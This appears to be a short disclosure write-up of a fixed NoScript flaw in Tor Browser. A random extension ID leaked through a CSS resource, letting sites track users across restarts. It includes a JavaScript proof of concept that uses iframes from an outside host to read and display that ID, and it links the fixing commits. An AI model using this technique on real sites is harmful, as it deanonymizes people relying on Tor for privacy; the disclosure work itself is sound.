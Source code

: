 ```yaml
---
title: Identify Tor user across browser restarts (Fixed)
---
```


"Tor Browser aims to make all users look the same, making it difficult for you to be fingerprinted based on your browser and device information."

NoScript is installed by default and cant be removed.
Other browser extensions are discouraged since there normally fingerprintable <https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/41581#note_2949932>

On the first install of the Tor browser, NoScript gets assigned a random extension ID that never changes. Because of this Firefox bug: <https://bugzilla.mozilla.org/show_bug.cgi?id=1372288>

This is different to the chromium way of using a universal extension ID for manifest v2 which while did allow detecting if an extension was installed there was no random extension/user ID generated.
Manifest v3 does have a `use_dynamic_url` feature that claims to be "per session and regenerated on browser restart or extension reload"

If the user increases there browser security level to "Safer" or in the NoScript settings page disables the media toggle this ID would be shared to an attacker controlled website using the following PoC:

```js
// Just a blank video
f = document.createElement('iframe')
f.hidden = true;
f.src = 'https://terjanq.me/xss.php?ct=video/mp4';
document.body.appendChild(f);

payload = `
let x = setInterval(() => {
 try {
  parent[0].document.links[0].style.opacity = 1;
  let link = parent[0].document.head.getElementsByTagName('link')[0];
  if (link && link.href) {
   let origin = new URL(link.href).hostname;
   alert('User ID: ' + origin);
   clearInterval(x);
  }
 } catch {}
}, 10);
`

setTimeout(() => {
    f2 = document.createElement('iframe');
    f2.hidden = true;
    // runs code same-origin as video
    f2.src = 'https://terjanq.me/xss.php?js=' + encodeURIComponent(payload);
    document.body.appendChild(f2);
}, 100);
```

This leak can be found at: <https://github.com/hackademix/nscl/blob/ef1ecbea27e39e255d988a8fb0233ab53c46e57c/content/PlaceHolder.js#L34>

It was fixed in version 11.4.28 by calling `tabs.insertCSS` instead of referencing the css file with `runtime.getURL`

NoScript: <https://github.com/hackademix/noscript/commit/1754429ea1bc458f802c4e4f49f8e8e4ab15f403>  
NSCL: <https://github.com/hackademix/nscl/commit/4c94bf24f117277f5c00878005d91d0d7aaa18e4>
![Tor](https://ndevtk.github.io/writeups/tor.png)
